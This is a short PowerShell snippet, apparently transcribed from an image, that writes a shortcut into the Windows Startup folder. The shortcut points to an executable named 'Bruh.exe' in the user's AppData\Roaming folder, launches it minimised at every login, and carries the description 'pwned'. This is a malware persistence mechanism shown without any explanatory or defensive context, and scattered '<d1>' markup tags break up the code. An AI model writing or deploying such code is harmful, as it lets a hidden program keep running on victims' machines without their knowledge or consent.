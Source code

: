 
<d1>$ComObj = New-Object -ComObject WScript.Shell<d1>
<d1>$ShortCut = $ComObj.CreateShortcut("$Env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\run.lnk")<d1>
<d1>$ShortCut.TargetPath = "$Env:USERPROFILE\AppData\Roaming\Bruh.exe"<d1>
<d1>$ShortCut.Description = "pwned"<d1>
<d1>$ShortCut.FullName<d1>
<d1>$ShortCut.WindowStyle = 7<d1>
<d1>$ShortCut.Save()<d1>
